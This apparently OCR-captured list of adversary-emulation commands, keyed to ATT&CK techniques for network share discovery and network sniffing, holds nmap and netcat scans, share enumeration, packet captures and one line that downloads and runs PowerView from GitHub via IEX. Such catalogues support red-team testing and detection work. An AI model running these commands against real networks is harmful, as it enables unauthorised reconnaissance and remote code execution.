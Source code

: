 done
* nmap -sS #{network_range} -p #{port}
telnet 192.168.1.1 #{port}
nc -nv 192.168.1.1 #{port}
* nmap -sS #{network_range} -p 80
telnet #{host} 80
nc -nv #{host} 80
* nmap 127.0.0.1
* python #{filename} -i 127.0.0.1
* nmap -sS 192.168.1.0/24 -p #{port}
telnet #{host} #{port}
nc -nv #{host} #{port}
* nmap -sV -p #{remote.host.port} #{remote.host.ip}
* python3 scanner.py -i #{remote.host.ip}
* Import-Module ./basic_scanner.ps1;
$ports = @(22, 53, 80, 445);
Get-NetIPConfiguration | ?{$_.NetAdapter.Status -ne "Disconnected"} | Get-NetIPaddress -AddressFamily IPv4 | %{
    $ipv4 = $_.IPAddress;
    $prefixLength = $_.PrefixLength;
    Scan-Netrange -ipv4 $ipv4 -prefixLength $prefixLength -ports $ports;
};
* rcpping.exe -s 127.0.0.1 -t ncacn_np
* rcpping.exe -s 127.0.0.1 -e 1234 -a privacy -u NTLM
* powercmd.exe /c/recon/find_fruit
##T1135: Network Share Discovery
* net share
* auxiliary/scanner/smb/smb_enumshares
* net view \\host /all [/domain:domain]
* auxiliary/scanner/smb/smb_enumshares
* net view \\host /domain
* get-smbshare
* [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
* net view \\localhost
* df -aH
smbutil view -g //computer1
showmount computer1
* net share
* smbstatus --shares
* Get-SmbShare | ConvertTo-Json
* net view \\$TARGET$ /all
##T1040: Network Sniffing
* netsh trace start capture=yes tracefile=%temp%\trace.etl maxsize=10
* tcpdump -c 5 -nnni ens33
tshark -c 5 -i ens33
* "c:\Program Files\Wireshark\tshark.exe" -i Ethernet -c 5
* "c:\Program Files\Wireshark\tshark.exe" -i #{interface} -c 5
* tcpdump -i en0 & sleep 5; kill $!
* $path = "$ENV:UserProfile\Desktop\pcap.etl";
New-NetEventSession -Name "PCAP" -CaptureMode SaveToFile -LocalFilePath $path;
Add-NetEventProvider -Name "Microsoft-Windows-TCPIP" -SessionName "PCAP";
Start-NetEventSession -Name "PCAP";
Start-Sleep -s 60;
Stop-NetEventSession -Name "PCAP";
if (Test-Path $path) {
  echo $path;
  exit 0;
} else {
  echo "Failed to generate PCAP file.";
  exit 1;
};
* powercmd.exe /c/collection/packet_capture